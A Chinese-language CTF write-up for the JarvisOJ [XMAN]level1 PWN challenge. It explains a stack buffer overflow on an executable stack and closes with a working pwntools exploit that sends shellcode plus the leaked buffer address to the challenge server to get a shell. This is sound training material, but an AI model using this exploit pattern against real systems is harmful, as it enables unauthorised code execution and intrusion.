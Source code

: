 ```yaml
---
title: XMAN level1 の Write-Up
date: 2020-05-07 14:10:04
categories:
- WriteUPs
- JarvisOJ
tags:
- PWN
- XMAN
- Stack
---
```

## Introduction

这是JarvisOJ的PWN题部分[XMAN]level1的Write-Up，比较简单。关键点在于当程序中没有现成的shellcode时，如何建立自己的shellcode并在buffer上布局。

<!-- more -->

## Step 1

程序运行如下图所示，可见会显示一个奇怪的地址：

![](/img/XMAN-level1/XMAN1.png)

还是一样的套路，checksec：32位程序，没有什么特殊的保护措施，并且栈上存在可读可写可执行的部分：

![](/img/XMAN-level1/XMAN2.png)

## Step 2

将程序拖到hopper disassembler中，熟悉的vulnerable_function函数：

![main函数](/img/XMAN-level1/XMAN3.png)

![vulnerable_function函数](/img/XMAN-level1/XMAN4.png)

通过vulnerable_function函数的伪C代码可以明白之前出现的那个奇怪的地址其实是泄露的buf地址，那么我们就应该有思路了：

![](/img/XMAN-level1/XMAN5.png)

首先左边是正常情况下栈中的布局情况，我们已知的是buf的起始地址。那么我们要做的是将ret的返回地址覆盖为buf的起始地址，这样我们就可以在buf中布局我们的shellcode。

右边是理想情况下我们布局后的栈中情况。

## Step 2

找到思路，下面就是EXP的编写了：

```Python
# coding:utf-8
from pwn import *

sh = remote('pwn2.jarvisoj.com', 9877)

# sh = process('./level1')
# elf = ELF('./level1')

# 获取buf地址
buf = sh.recvline()[14:22]
# 将16进制地址字符串转换成十进制的地址
buf_addr = int(buf, 16)

# 生成shellcode
shellcode = asm(shellcraft.i386.linux.sh())

payload = shellcode + "A" * (0x88 + 0x4 -len(shellcode)) + p32(buf_addr)

sh.send(payload)
sh.interactive()
sh.close()
```

执行后就可以拿到shell啦：

![](/img/XMAN-level1/XMAN6.png)
